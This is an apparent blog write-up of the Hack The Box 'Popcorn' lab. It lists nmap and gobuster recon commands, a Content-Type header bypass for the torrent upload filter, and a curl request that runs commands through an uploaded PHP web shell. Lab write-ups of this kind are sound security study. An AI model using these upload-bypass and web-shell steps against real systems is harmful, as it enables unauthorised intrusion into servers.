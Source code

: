 ```yaml
---
title: htb popcorn
author: Yuchao
date: 2021-03-15 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


## Recon

#### nmap 
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.6
nmap -p 22,80 -sC -sV -oA scans/tcpscripts 10.10.10.6
```
- OpenSSH 5.1p1, Apache httpd 2.2.12  ---> older than Ubuntu Trusty 14.04 ---> Karmic (9.10)

#### Directory discovery
```bash
# asdf
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root-med -t 40
```
- get the path: /test (Status: 200) /index (Status: 200) /torrent (Status: 301) /rename (Status: 301)
- show a PHP info page.
- ``` file_uploads ``` is set to ON
- may vulnerable to Local File Inclusion.(LFI)
- /torrent can upload image as screen shot
- and the picture is saved at ``` http://10.10.10.6/torrent/upload/ ```

## upload webshell
#### manipulate php to bypass picture filters
- 1. file extension (the server did not have check this)
- 2. Content-Type header (this filter works on the server)
- 3. magic bytes (did not work)

so just change the http header

#### upload
cmd.php seems to be rename as its hash value, as 0ba973670d943861fb9453eecefd3bf7d3054713.php.

#### execute
``` curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id ```

